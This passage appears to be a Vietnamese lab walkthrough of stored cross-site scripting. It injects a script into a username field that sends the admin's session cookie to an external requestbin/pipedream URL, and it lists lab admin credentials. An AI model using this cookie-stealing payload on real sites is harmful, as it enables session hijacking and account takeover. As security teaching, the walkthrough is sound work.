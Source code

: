     ```

    - Ở đây sẽ không có chuyện gì xảy ra khi user nhập $name bình thường. Tuy nhiên nếu user nhập là 1 đoạn javascript. Khi đó $name sẽ được thực thi như 1 đoạn mã javascript thông thường. Do vậy, nếu attacked dùng đoạn mã sau thì sẽ lấy cookie của admin thông qua xss.

```
<script type="text/javascript">
     window.location.assign('https://enyuabviyn2ns.x.pipedream.net?key='+document.cookie);
</script>
```

- Lệnh window.location.assign($url) sẽ reload trang web tới đích $url được chỉ định.
- Lệnh document.cookie cho phép lấy ra cookie của account hiện tại. Ở đây ta sẽ dùng lệnh này để lấy ra PHPSESSID của admin dựa trên kỹ thuật xss.
- Kết hợp "requestbin.com" với các câu lệnh trên ta sẽ Reflected từ trang web đích(victim) với cookie của admin khi admin mở lên trang web có chứa đoạn mã độc trên.

* Quay lại phần đổi tên, dán đoạn mã độc trên vào ô "Enter new username" và click "Rename user"
    - Ở đây ô input "Enter new username" là 1 đầu vào của trang web. Khi đầu vào không được lọc kỹ càng thì sẽ bị dính lỗi xss. Bây giờ ta sẽ thử tiêm đoạn mã độc javascript ở trên vào đây.
![rename](images/step_demo_rename.png)
* Quay lại trang "requestbin.com" để chờ admin hoặc manager login vô trang web. Ta đã thành công trong việc tiêm mã độc javascript vào thông tin cá nhân của mình. Bây giờ ta chỉ cần đợi admin hoặc manager kiểm tra tài khoản của user.
* (Giả định với tư cách là admin của trang web) Tiến hành đổi trình duyệt và login vào trang web với tài khoản của admin (admin04:admin07)